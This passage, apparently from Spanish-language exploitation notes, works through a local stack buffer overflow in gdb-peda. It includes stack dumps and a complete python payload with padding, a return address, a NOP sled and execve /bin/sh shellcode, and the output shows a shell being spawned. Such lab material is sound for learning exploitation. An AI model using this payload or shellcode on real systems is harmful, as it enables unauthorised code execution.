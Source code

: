 ```bash
0xbffff024 : 0xbffff02c ($sp + -0x50 [-20 dwords])
0xbffff028 : 0xbffff30d ($sp + -0x4c [-19 dwords])
0xbffff118 : 0xbffff30d ($sp + 0xa4 [41 dwords])

```

---

Ver los valores que hay en la pila
Si queremos ver los 100 últimos registros de la pila y 8 bytes antes
```bash
gdb-peda$ x/100wx $esp-8
0xbffff02c:     0x41414141      0x42424242      0x43434343      0x43434343
0xbffff03c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff04c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff05c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff06c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff07c:     0x43434343      0x43434343      0x43434343      0x43434343
0xbffff08c:     0x43434343      0x43434343      0x43434343      0xb7e2ca00
0xbffff09c:     0xb7fff000      0x00000002      0x08048320      0x00000000
0xbffff0ac:     0x08048341      0x08048437      0x00000002      0xbffff0d4
0xbffff0bc:     0x08048450      0x080484c0      0xb7fed300      0xbffff0cc
0xbffff0cc:     0x0000001c      0x00000002      0xbffff2a1      0xbffff2c5
0xbffff0dc:     0x00000000      0xbffff372      0xbffff37d      0xbffff38f
0xbffff0ec:     0xbffff3a0      0xbffff3d2      0xbffff3e8      0xbffff3f7
0xbffff0fc:     0xbffff42c      0xbffff441      0xbffff458      0xbffff468
0xbffff10c:     0xbffff479      0xbffff48b      0xbffff4bf      0xbffff503
0xbffff11c:     0xbffff532      0xbffff53e      0xbffffa5f      0xbffffa99
0xbffff12c:     0xbffffacd      0xbffffafd      0xbffffb30      0xbffffb82
0xbffff13c:     0xbffffb8e      0xbffffbd2      0xbffffbe9      0xbffffc47
0xbffff14c:     0xbffffc56      0xbffffc77      0xbffffc89      0xbffffcaa
0xbffff15c:     0xbffffcb3      0xbffffcc7      0xbffffcde      0xbffffcef
0xbffff16c:     0xbffffd25      0xbffffd34      0xbffffd51      0xbffffd63
0xbffff17c:     0xbffffd6c      0xbffffd7e      0xbffffd98      0xbffffda7
0xbffff18c:     0xbffffdaf      0xbffffdc1      0xbffffdd0      0xbffffdfc
0xbffff19c:     0xbffffe0b      0xbffffe25      0xbffffe37      0xbffffe73
0xbffff1ac:     0xbffffec2      0xbffffee2      0xbffffef7      0xbfffff01
```

## Ejecución de comandos
---

Finalmente ha sido posible ejecutarse comandos explotando un buffer overflow en un sistema linux.
```bash
gdb-peda$ run $(python -c "print 'A'*68 + '\x74\xf0\xff\xbf' + '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
Starting program: /home/noroot/buffer_overflow/buffer $(python -c "print 'A'*68 + '\x74\xf0\xff\xbf' + '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
process 3309 is executing new program: /bin/dash
$ whoami
[New process 3315]
process 3315 is executing new program: /usr/bin/whoami
noroot
$ [Inferior 2 (process 3315) exited normally]
```

